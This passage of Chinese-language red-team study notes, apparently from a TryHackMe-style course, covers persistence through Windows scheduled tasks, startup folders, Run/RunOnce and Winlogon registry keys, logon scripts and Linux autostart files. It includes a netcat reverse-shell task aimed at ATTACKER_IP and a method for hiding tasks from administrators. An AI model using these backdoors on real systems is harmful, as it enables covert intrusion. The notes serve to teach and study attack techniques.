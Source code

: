         Bash
        
        ```
        schtasks /create /tn "TaskName" /tr "C:\path\to\payload.exe" /sc ONSTART /ru SYSTEM /f
        ```
        
        (示例：系统启动时以 SYSTEM 权限运行 payload)
        
        Bash
        
        ```
        schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
        ```
        
        (示例：每分钟以 SYSTEM 权限运行反向 shell)
    - **查询任务**: `schtasks /query /tn <TaskName>`
    - **隐藏计划任务 (使其在查询中不可见)**:
        - **原理**: 删除任务的安全描述符 (SD)。
        - **步骤**: 使用 `PsExec64.exe -s -i regedit` 以 SYSTEM 权限打开注册表编辑器，删除 `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\<TaskName>`键下的 `SD` 值。删除后，即使是管理员也无法通过 `schtasks /query` 查看到该任务。
- **Linux**:
    - **命令**: `crontab -e` 编辑当前用户的 cron 作业。
    - **示例**: `* * * * * /path/to/payload` (每分钟执行)。

##### 3. 启动项 (Startup Items)

- **原理**: 将恶意程序的快捷方式、路径或脚本添加到系统的自启动位置，实现用户登录或系统启动时自动运行。
- **Windows**:
    - **A. 启动文件夹**:
        - **当前用户**: `C:\Users\<User>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
        - **所有用户**: `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`
        - **操作**: 将恶意可执行文件 (如 `msfvenom` 生成的 payload) 复制到上述目录。
    - **B. 注册表 Run/RunOnce 键**:
        - `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
        - `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
        - `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
        - `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`
        - (`Wow6432Node` 下有对应 32 位程序的键值)
        - **操作**: 在这些键下创建新的字符串值 (REG_SZ 或 REG_EXPAND_SZ)，名称任意，数据为恶意程序的完整路径。`Run` 键下程序每次登录执行，`RunOnce` 键下程序仅执行一次后自动删除该键值。
    - **C. Winlogon 注册表键**:
        - **原理**: Winlogon 组件在用户认证后加载用户配置。可利用其相关注册表键执行程序。
        - **位置**: `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`
        - **键**:
            - `Userinit`: 指向 `userinit.exe`，负责恢复用户配置。可以追加逗号和恶意程序路径 (如 `C:\Windows\system32\userinit.exe,C:\Windows\payload.exe`)。
            - `Shell`: 指向系统外壳，通常是 `explorer.exe`。也可类似追加。
    - **D. 登录脚本 (通过环境变量)**:
        - **原理**: `userinit.exe` 会检查 `UserInitMprLogonScript` 环境变量。
        - **位置**: `HKCU\Environment`
        - **操作**: 创建名为 `UserInitMprLogonScript` 的字符串值，数据为恶意脚本或程序的路径。此方法仅对当前用户有效。
- **Linux**:
    - `.bashrc`, `.profile` (用户登录时执行)
    - `/etc/profile`, `/etc/bash.bashrc` (所有用户登录时执行)
    - `/etc/rc.local` (旧系统，系统启动末期执行)
    - Systemd service units (现代 Linux 系统首选)
    - XDG Autostart (桌面环境)
